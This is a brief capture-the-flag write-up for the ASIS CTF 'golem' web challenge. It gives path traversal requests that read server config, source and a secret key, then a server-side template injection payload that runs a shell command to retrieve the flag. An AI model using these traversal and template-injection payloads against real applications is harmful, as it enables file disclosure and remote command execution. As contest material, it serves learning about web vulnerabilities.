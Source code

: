 # golem

## LFI

`https://golem.asisctf.com/article?name=../../../../../../etc/nginx/sites-enabled/golem`

=>

location /static/ {

    root /opt/serverPython/golem;
    
    expires 30d;
    
    add_header Pragma public;
    
    add_header Cache-Control &#34;public&#34;;

}



`https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/server.py`

=>

execfile('flag.py')

execfile('key.py')

FLAG = flag

app.secret\_key = key

...


https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/secret.py

=>

`secret key: 7h15_5h0uld_b3_r34lly_53cur3d`


## SSTI

use the secret key to let session['golem'] = {{ config[\'RUNCMD\'](\'grep "ASIS" flag.py\',shell=True) }}

=>

`ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}`

